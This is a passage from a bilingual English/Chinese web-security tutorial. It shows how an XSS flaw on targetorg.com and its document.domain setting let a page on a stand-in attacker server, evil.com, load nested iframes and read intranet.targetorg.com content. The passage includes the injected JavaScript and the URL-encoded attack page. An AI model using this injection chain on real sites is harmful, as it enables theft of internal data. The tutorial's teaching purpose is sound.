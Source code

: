 ![A4WxDs.png](https://s2.ax1x.com/2019/04/08/A4WxDs.png)

**图例 4**: http://targetorg.com 上的 XSS

In the source code of the HTML we have:

HTML 的源代码为：

```html
<html>
<head>
<title>Public web page for Targetorg</title>
<script>
document.domain = "targetorg.com";
</script>
```

The 'document.domain' definition is interesting. Let’s inject some JavaScript that will surf the intranet.targetorg.com site that we discovered in the reconnaissance phase. Let’s inject the following JavaScript:

'document.domain' 的定义很有趣。让我们向 intranet.targetorg.com 网站注入一些能够浏览我们在侦察阶段发现的目标的 JavaScript。让我们注入以下 JavaScript：

```javascript
var iframe = document.createElement('iframe'); 
iframe.src = 'http://intranet.targetorg.com'; 
iframe.onload = function(e) {
    alert('Sending contents of intranet.targetorg.com to attacker: ' + iframe.contentWindow.document.documentElement.outerHTML);
};
document.body.appendChild(iframe);
```

On our public malicious server evil.com, we will make an iframe that loads http://targetorg.com using the above injection. The result is that the web page of http://evil.com will have two nested iframes: one that shows http://targetorg.com, and that one in turn has an iframe that shows http://intranet.targetorg.com. The JavaScript that we place in the web page of http://evil.com/malicious.html is therefore:

在我们的公网恶意服务器 evil.com 上，我们将使用上面的注入创建一个加载 http://targetorg.com 的 iframe。 结果是 http://evil.com 的网页将有两个嵌套的 iframe：一个显示 http://targetorg.com，另外一个 iframe 显示 http：//intranet.targetorg。因此，我们在 http://evil.com/malicious.html 网页中放置的 JavaScript 是：

```javascript
var theiframe = document.createElement('iframe'); 
theiframe.src =
'http://targetorg.com/?inject=var%20iframe%20%3d%20document.createElement(%27 iframe%27);%20iframe.src%20%3d%20%27http://intranet.targetorg.com%27;%20iframe.onload%20%3d%20function(e)%20%7b%20alert(%27Sending%20contents%20of%20intra net.targetorg.com%20to%20attacker:%20%27%20+%20iframe.contentWindow.document. documentElement.outerHTML);%20%7d;%20document.body.appendChild(iframe);'; 
document.body.appendChild(theiframe);
```

When the victim surfs to our malicious URL the result is:

当受害者浏览我们的恶意 URL，结果是：

